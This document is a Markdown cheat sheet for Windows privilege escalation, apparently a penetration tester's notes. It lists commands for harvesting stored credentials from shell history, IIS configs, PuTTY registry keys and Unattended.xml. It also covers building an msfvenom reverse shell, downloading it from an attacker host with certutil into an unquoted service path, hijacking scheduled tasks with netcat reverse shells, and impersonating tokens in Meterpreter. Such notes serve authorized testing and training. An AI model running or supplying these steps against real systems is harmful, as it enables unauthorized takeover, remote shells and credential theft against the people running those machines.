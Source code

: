 ```yaml
---
title: 5 – Privesc Windows
summary: Privilege Escalation step – a note for elevating privileges on a Windows machine.
description: Privilege Escalation step – a note for elevating privileges on a Windows machine.
---
```


# Privesc Checklist

---

 > 
 > **<font color=red>doskey /history</font>**</br>
 > Show user input history.

 > 
 > **<font color=red>powershell -c "Get-Service"</font>**</br>
 > Return services.

 > 
 > **<font color=red>Get-ScheduledTask</font>**</br>
 > Return Scheduled tasks.

 > 
 > **<font color=red>cmdkey /list</font>**</br>
 > List saved credentials (can’t see password).</br>
 > **<font color=red>runas /savecred /user:</font>admin <font color=red>powershell.exe</font>**</br>
 > Run a program with saved creds.

 > 
 > **<font color=red>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt</font>**</br>
 > Show CMD history.

 > 
 > **<font color=red>type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt</font>**</br>
 > Show Powershell History.

 > 
 > **<font color=red>type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString</font>**</br>
 > Search for database password in IIS config.

 > 
 > **<font color=red>reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s</font>**</br>
 > Look for Putty credentials in registers (SimonTatham is PuTTY’s creator).

# Automated Scripts

---

### POWERUP

**https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1**

 > 
 > **<font color=red>. .\PowerUp.ps1</font>**</br>
 > **<font color=red>Invoke-AllChecks</font>**

---

### EXPLOIT-SUGGESTER

**https://github.com/AonCyberLabs/Windows-Exploit-Suggester** 

#### On target

 > 
 > **<font color=red>systeminfo</font>**

#### On attacker machine

 > 
 > **<font color=orange>pip install xlrd==1.2.0</font>**</br>
 > 
 > **<font color=red>windows-exploit-suggester.py --update</font>**</br>
 > **<font color=red>windows-exploit-suggester.py --systeminfo</font> systeminfo.txt <font color=red>--database</font> \[DATE\]-mssb.xls**

---

### WINPEAS

**https://github.com/carlospolop/PEASS-ng/releases**

 > 
 > **<font color=red>winPEASx64.exe</font>**
 > Run WinPEAD

#### WINPEAS Output

````
WiseBootAssistant(WiseCleaner.com - Wise Boot Assistant)[C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected YOU CAN MODIFY THIS SERVICE: AllAccess
````

#### On attacker machine

 > 
 > **<font color=red>msfvenom -p windows/x64/shell_reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] -f <font color=red>exe -o</font> Wise.exe**</br>
 > Create a reverse shell with the name of the modifiable service.
 > 
 > **<font color=red>nc -lvnp</font> \[ATTACKER_PORT\]**</br>
 > Open a listener.

#### On target machine

 > 
 > **<font color=red>cd "C:\\Program Files (x86)\\</font>Wise"**</br>
 > **<font color=red>certutil.exe -urlcache -f</font> http://\[ATTACKER_IP\]:\[ATTACKER_PORT\]/Wise.exe Wise.exe**</br>
 > Download crafted executable and place it where the space is in the vulnerable path.
 > 
 > **<font color=red>sc.exe stop</font> WiseBootAssistant**</br>
 > **<font color=red>sc.exe query</font> WiseBootAssistant**</br>
 > **<font color=red>sc.exe start</font> WiseBootAssistant**</br>
 > Restart the service to execute the crafted one. 

---

### PRIVESCHECK

**https://github.com/itm4n/PrivescCheck**

 > 
 > **<font color=red>Set-ExecutionPolicy Bypass -Scope process -Force</font>**</br>
 > **<font color=red>. .\PrivescCheck.ps1</font>**</br>
 > **<font color=red>Invoke-PrivescCheck</font>**</br>

---

### ROADRECON (Azure AD)

**https://github.com/dirkjanm/ROADtools/wiki/Getting-started-with-ROADrecon**

# Abusing Schtasks

---

### Show Schtasks

 > 
 > **<font color=red>schtasks /query /tn</font> vulnerableTask <font color=red>/fo list /v</font>**</br>
 > Show detail info about the scheduled task.
 > 
 > **<font color=red>cd c:\\Program Files (x86)\\SystemScheduler\\Events</font>**</br>
 > **<font color=red>type</font> \[ID\]<font color=red>.INI_LOG.txt</font>**
 > Show tasks logs.

---

### Replace executable

 > 
 > **<font color=red>mv</font> excutedByTask.exe excutedByTask.exe.bak**</br> 
 > **<font color=red>mv</font> msfvenomeReverseShell excutedByTask.exe**
 > Replace exe that being executed by scheduled tasks.

---

### Inject scheduled task

 > 
 > **<font color=red>echo</font> c:\\tools\\nc64.exe <font color=red>-e cmd.exe</font> \[ATTACKER_IP\] \[ATTACKER_PORT\] <font color=red>\> C:\\tasks\\schtask.bat</font>**</br>
 > Inject scheduled task with reverse shell.

# Abusing Privileges

---

Here are the most commonly abused privileges:

* SeImpersonatePrivilege
* SeAssignPrimaryPrivilege
* SeTcbPrivilege
* SeBackupPrivilege
* SeRestorePrivilege
* SeCreateTokenPrivilege
* SeLoadDriverPrivilege
* SeTakeOwnershipPrivilege
* SeDebugPrivilege

 > 
 > **<font color=red>whoami /priv</font>**</br>
 > Show current user privileges.

---

### SeDebugPrivilege and SeImpersonatePrivilege

When **SeDebugPrivilege** and **SeImpersonatePrivilege** are enabled, we can impersonate another user.

 > 
 > **<font color=red>load incognito</font>**</br>
 > **<font color=red>list_tokens -g</font>**</br>
 > List tokens.
 > 
 > **<font color=red>impersonate_token</font> "BUILTIN\\Administrators"**</br>
 > Impersonate token.

To determine rights, Windows uses the Primary Token of the process and not the impersonated token. So we have to migrate to a process with correct permissions. 

The safest to pick is **services.exe**.

 > 
 > **<font color=red>migrate</font> 668**</br>
 > Migrate to process 668.

# Unattended Path

Unattended Setup is the method by which OEMs (Original Equipment Manufacturers) install Windows NT in unattended mode.
C:\\Windows\\Panther\\Unattend\\Unattended.xml is where users' passwords are stored in base64. 

 > 
 > **<font color=red>type C:\\Windows\\Panther\\Unattend\\Unattended.xml</font>**</br>
 > Display unattended password.

````xml
<AutoLogon>
    <Password>
        <Value>dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=</Value>
        <PlainText>false</PlainText>
    </Password>
    <Enabled>true</Enabled>
    <Username>Administrator</Username>
</AutoLogon>
````
